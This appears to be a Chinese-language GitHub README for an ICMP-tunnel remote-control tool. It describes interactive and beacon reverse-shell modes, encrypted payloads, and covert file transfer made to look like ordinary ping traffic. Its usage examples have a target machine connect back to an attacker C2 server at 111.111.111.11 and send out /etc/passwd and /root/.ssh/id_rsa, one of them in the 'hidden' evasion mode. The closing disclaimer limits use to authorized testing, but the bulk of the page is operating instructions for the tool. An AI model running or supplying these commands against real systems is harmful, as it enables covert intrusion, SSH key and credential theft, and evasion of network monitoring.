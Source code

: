 ICMP隧道远控工具。

公众号文章：https://mp.weixin.qq.com/s/N1qZ1mAQLB-r6xQ1f6E-DA

---

## ✨ 功能说明
+ **多模式操作**:
    - **会话模式 (**`session`**)**: 提供一个实时的、交互式的远程Shell。
    - **信标模式 (**`beacon`**)**: 客户端以固定的时间间隔回连（心跳），接收并执行服务端下发的指令队列。
+ **数据包步态，加密/编码支持**:
    - 支持 `AES` (CBC模式), `XOR`, `Base64`, `Base32` 以及 `none` (原文) 多种载荷处理方式。
    - 支持包长度、发包频率控制，以及部分协议字段自定义。
+ **文件传输**:
    - **普通文件传输 (**`filetrans`**)**: 高效、可靠地传输大文件，支持自定义MTU。
    - **隐藏文件传输 (**`filetrans-hide`**)**:  将文件数据块嵌入到**仿真**的`ping`命令载荷中，模拟的8字节`struct timeval`时间戳和固定的数据序列。

---

## 🚀 快速编译
### 1. 编译
Go 环境 (版本 >= 1.20)。

```bash
# 编译服务端
go build -o icmpsh_ser ./cmd/server/

# 编译客户端
go build -o icmpsh_cli ./cmd/shell/
```

## <font style="color:rgb(13, 18, 57);">🚀</font><font style="color:rgb(13, 18, 57);"> 快速上手</font>
+ **<font style="color:rgb(13, 18, 57);">攻击机</font>**<font style="color:rgb(13, 18, 57);">: 控制主机 (C2)，IP地址为</font><font style="color:rgb(13, 18, 57);background-color:#D8DAD9;">111.111.111.11</font><font style="color:rgb(13, 18, 57);">，在此主机运行服务端。</font>
+ **<font style="color:rgb(13, 18, 57);">目标机</font>**<font style="color:rgb(13, 18, 57);">: 在此主机上运行客户端。</font>

<font style="color:rgb(13, 18, 57);"></font>

### <font style="color:rgb(13, 18, 57);">场景一：</font>
获得一个beacon模式的交互式shell，通讯流量以AES加密

```html
./icmpsh_ser --token <共享密钥> --crypto-mode <加密模式>
./icmpsh_ser --token "MySecretKey123" --crypto-mode aes --mode beacon
```

<font style="color:rgb(13, 18, 57);"> --mtu 调整每次发送的数据块大小， --interval 控制发包频率，--crypto-mode 控制传输加密类型。</font>

```html
./icmpsh_cli --ip <服务端IP> --token <共享密钥> --crypto-mode <加密模式>
./icmpsh_cli --ip 111.111.111.11 --token "MySecretKey123" --crypto-mode aes  --mode beacon
```

### <font style="color:rgb(13, 18, 57);">场景二：</font>
传输单个文件。



<font style="color:rgb(13, 18, 57);">服务端接收文件，并将其保存为 icmp_trans_file。</font>

```html
# 语法: ./icmpsh_ser --token <共享密钥> --filetrans
./icmpsh_ser --token "MySecretKey123" --filetrans
```

<font style="color:rgb(13, 18, 57);">目标机上运行客户端， --filetrans 指定要发送的文件。 --mtu 调整每次发送的数据块大小，用 --interval控制发包频率，但不支持 --crypto-mode 控制传输加密类型。</font>

```html
# 语法: ./icmpsh_cli --ip <服务端IP> --token <共享密钥> --filetrans <文件路径>
./icmpsh_cli --ip 111.111.111.11 --token "MySecretKey123" --filetrans /etc/passwd --mtu 256 --interval 1
```

### <font style="color:rgb(13, 18, 57);">场景三：</font>
隐匿传输单个文件，<font style="color:rgb(13, 18, 57);">使用一个看起来和普通ping命令几乎一样的流量来传输文件</font>

<font style="color:rgb(13, 18, 57);"></font>

<font style="color:rgb(13, 18, 57);">服务端只负责接收数据，它不需要关心客户端是用哪种方式发送的。</font>

```html
./icmpsh_ser --token "MySecretKey123" --filetrans

```

<font style="color:rgb(13, 18, 57);">使用  --fth ( --filetrans-hide ) 参数。注意，在此模式下， --mtu 是无效的，载荷大小被固定为56字节以模仿 ping 命令，也不支持 --crypto-mode 控制传输加密类型。但可以支持用  --interval 控制发包频率。</font>

```html
# 语法: ./icmpsh_cli --ip <服务端IP> --token <共享密钥> --fth <文件路径>
./icmpsh_cli --ip 111.111.111.11 --token "MySecretKey123" --fth /root/.ssh/id_rsa

```



## <font style="color:rgb(13, 18, 57);">🔧</font><font style="color:rgb(13, 18, 57);"> 参数详解</font>
### <font style="color:rgb(13, 18, 57);">服务端 (icmpsh_ser)</font>
<font style="color:rgb(255, 255, 255);">全屏</font><font style="color:rgb(255, 255, 255);">复制</font>

| **<font style="color:rgb(255, 255, 255);">参数</font>** | **<font style="color:rgb(255, 255, 255);">别名</font>** | **<font style="color:rgb(255, 255, 255);">类型</font>** | **<font style="color:rgb(255, 255, 255);">默认值</font>** | **<font style="color:rgb(255, 255, 255);">描述</font>** |
| --- | --- | --- | --- | --- |
| <font style="color:rgb(0, 0, 0);">--token</font> | <font style="color:rgb(0, 0, 0);">-t</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"go-icmpshell"</font> | <font style="color:rgb(0, 0, 0);">用于客户端和服务端认证的共享密钥。</font> |
| <font style="color:rgb(0, 0, 0);">--filetrans</font> | <font style="color:rgb(0, 0, 0);">-ft</font> | <font style="color:rgb(0, 0, 0);">bool</font> | <font style="color:rgb(0, 0, 0);">false</font> | <font style="color:rgb(0, 0, 0);">启动文件接收模式。此模式下，其他模式和加密参数无效。</font> |
| <font style="color:rgb(0, 0, 0);">--mode</font> | <font style="color:rgb(0, 0, 0);">-m</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"session"</font> | <font style="color:rgb(0, 0, 0);">运行模式，可选: session (实时会话) 或 beacon (信标)。</font> |
| <font style="color:rgb(0, 0, 0);">--crypto-mode</font> | <font style="color:rgb(0, 0, 0);">-cm</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"none"</font> | <font style="color:rgb(0, 0, 0);">载荷加密/编码模式，可选: aes, xor, base64, base32, none。</font> |
| <font style="color:rgb(0, 0, 0);">--mtu</font> | | <font style="color:rgb(0, 0, 0);">int</font> | <font style="color:rgb(0, 0, 0);">666</font> | <font style="color:rgb(0, 0, 0);">(会话/信标模式) 定义单包最大载荷，最小为40。</font> |


### <font style="color:rgb(13, 18, 57);">客户端 (icmpsh_cli)</font>
<font style="color:rgb(255, 255, 255);">全屏</font><font style="color:rgb(255, 255, 255);">复制</font>

| **<font style="color:rgb(255, 255, 255);">参数</font>** | **<font style="color:rgb(255, 255, 255);">别名</font>** | **<font style="color:rgb(255, 255, 255);">类型</font>** | **<font style="color:rgb(255, 255, 255);">默认值</font>** | **<font style="color:rgb(255, 255, 255);">描述</font>** |
| --- | --- | --- | --- | --- |
| <font style="color:rgb(0, 0, 0);">--ip</font> | <font style="color:rgb(0, 0, 0);">-i</font> | <font style="color:rgb(0, 0, 0);">string</font> | **<font style="color:rgb(0, 0, 0);">(必需)</font>** | <font style="color:rgb(0, 0, 0);">要连接的服务端IP地址。</font> |
| <font style="color:rgb(0, 0, 0);">--token</font> | <font style="color:rgb(0, 0, 0);">-t</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"go-icmpshell"</font> | <font style="color:rgb(0, 0, 0);">共享密钥，必须与服务端匹配。</font> |
| <font style="color:rgb(0, 0, 0);">--filetrans</font> | <font style="color:rgb(0, 0, 0);">-ft</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">""</font> | <font style="color:rgb(0, 0, 0);">普通文件传输模式，值为要发送的文件路径。与 --fth 及其他模式互斥。</font> |
| <font style="color:rgb(0, 0, 0);">--filetrans-hide</font> | <font style="color:rgb(0, 0, 0);">-fth</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">""</font> | <font style="color:rgb(0, 0, 0);">隐藏文件传输模式，值为要发送的文件路径。与 --ft 及其他模式互斥。</font> |
| <font style="color:rgb(0, 0, 0);">--mode</font> | <font style="color:rgb(0, 0, 0);">-m</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"session"</font> | <font style="color:rgb(0, 0, 0);">运行模式，session 或 beacon。</font> |
| <font style="color:rgb(0, 0, 0);">--crypto-mode</font> | <font style="color:rgb(0, 0, 0);">-cm</font> | <font style="color:rgb(0, 0, 0);">string</font> | <font style="color:rgb(0, 0, 0);">"none"</font> | <font style="color:rgb(0, 0, 0);">加密/编码模式，必须与服务端匹配。</font> |
| <font style="color:rgb(0, 0, 0);">--mtu</font> | | <font style="color:rgb(0, 0, 0);">int</font> | <font style="color:rgb(0, 0, 0);">666</font> | <font style="color:rgb(0, 0, 0);">定义单包最大载荷，最小为40。</font> |
| <font style="color:rgb(0, 0, 0);">--interval</font> | | <font style="color:rgb(0, 0, 0);">int</font> | <font style="color:rgb(0, 0, 0);">1</font> | <font style="color:rgb(0, 0, 0);">发包的时间间隔，单位为秒，最小为1。</font> |
| <font style="color:rgb(0, 0, 0);">--icmpId</font> | | <font style="color:rgb(0, 0, 0);">uint</font> | <font style="color:rgb(0, 0, 0);">1000</font> | <font style="color:rgb(0, 0, 0);">通信所使用的ICMP ID。</font> |


### <font style="color:rgb(13, 18, 57);">客户端各模式下参数有效性</font>
<font style="color:rgb(255, 255, 255);">全屏</font><font style="color:rgb(255, 255, 255);">复制</font>

| **<font style="color:rgb(255, 255, 255);">操作模式 (通过flag触发)</font>** | **<font style="color:rgb(255, 255, 255);">--mtu   </font>****<font style="color:rgb(255, 255, 255);">调整数据块大小</font>** | **<font style="color:rgb(255, 255, 255);">--interval   </font>****<font style="color:rgb(255, 255, 255);">控制发包频率</font>** | **<font style="color:rgb(255, 255, 255);">--crypto-mode   </font>****<font style="color:rgb(255, 255, 255);">控制传输加密类型</font>** |
| --- | :---: | :---: | :---: |
| **<font style="color:rgb(0, 0, 0);">会话/信标模式</font>**<font style="color:rgb(0, 0, 0);">   </font><font style="color:rgb(0, 0, 0);">(--mode)</font> | <font style="color:rgb(0, 0, 0);">✅</font> | <font style="color:rgb(0, 0, 0);">✅</font><font style="color:rgb(0, 0, 0);"> (仅beacon)</font> | <font style="color:rgb(0, 0, 0);">✅</font> |
| **<font style="color:rgb(0, 0, 0);">普通文件传输</font>**<font style="color:rgb(0, 0, 0);">   </font><font style="color:rgb(0, 0, 0);">(--filetrans)</font> | <font style="color:rgb(0, 0, 0);">✅</font> | <font style="color:rgb(0, 0, 0);">✅</font> | <font style="color:rgb(0, 0, 0);">❌</font><font style="color:rgb(0, 0, 0);"> (仅支持原文)</font> |
| **<font style="color:rgb(0, 0, 0);">隐藏文件传输</font>**<font style="color:rgb(0, 0, 0);">   </font><font style="color:rgb(0, 0, 0);">(--fth)</font> | <font style="color:rgb(0, 0, 0);">❌</font><font style="color:rgb(0, 0, 0);"> (固定为56字节)</font> | <font style="color:rgb(0, 0, 0);">✅</font> | <font style="color:rgb(0, 0, 0);">❌</font><font style="color:rgb(0, 0, 0);"> (仅支持原文)</font> |


## <font style="color:rgb(13, 18, 57);">⚠️</font><font style="color:rgb(13, 18, 57);"> 免责声明</font>
<font style="color:rgb(13, 18, 57);">本工具仅供授权的渗透测试和安全研究使用。作者不对任何滥用本工具造成的后果负责。请遵守当地法律法规。</font>

